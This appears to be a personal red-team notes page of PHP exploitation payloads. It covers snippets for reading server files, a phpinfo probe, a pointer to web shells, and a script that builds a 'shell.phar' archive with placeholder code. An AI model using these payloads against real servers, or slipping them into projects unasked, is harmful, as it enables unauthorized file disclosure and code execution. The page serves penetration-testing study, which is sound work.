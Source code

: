 # Exploitation Payloads

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) is the way to go, but I noted down some of mine.

<hr class="sep-both">

## PHP

<div class="row row-cols-lg-2"><div>

#### Read a file

`file_get_contents` is more common, but `show_source` works fine too.

```php!
<?php
$fileContents = file_get_contents('index.php');
$fileContents = show_source('index.php', true);
echo $fileContents;
?>
```

Base64 encoding is not always necessary, especially with `show_source`.

```php!
$fileContents = base64_encode($fileContents);
```
</div><div>

#### Execute Shell Commands

Refer to [webshells#php](/cybersecurity/red-team/s3.exploitation/shell/web_shell.md#php-web-shell).

<br>

#### PHP Info POC

We often run `phpinfo` to get information.

```php!
<?php phpinfo() ?>
```
</div></div>

<hr class="sep-both">

## Phar

<div class="row row-cols-lg-2"><div>

To create a simple phar archive:

```php!
<?php // php --define phar.readonly=0 shell.php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.php', '<?php /*code*/ ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');
$phar->stopBuffering();
```
</div><div>

...
</div></div>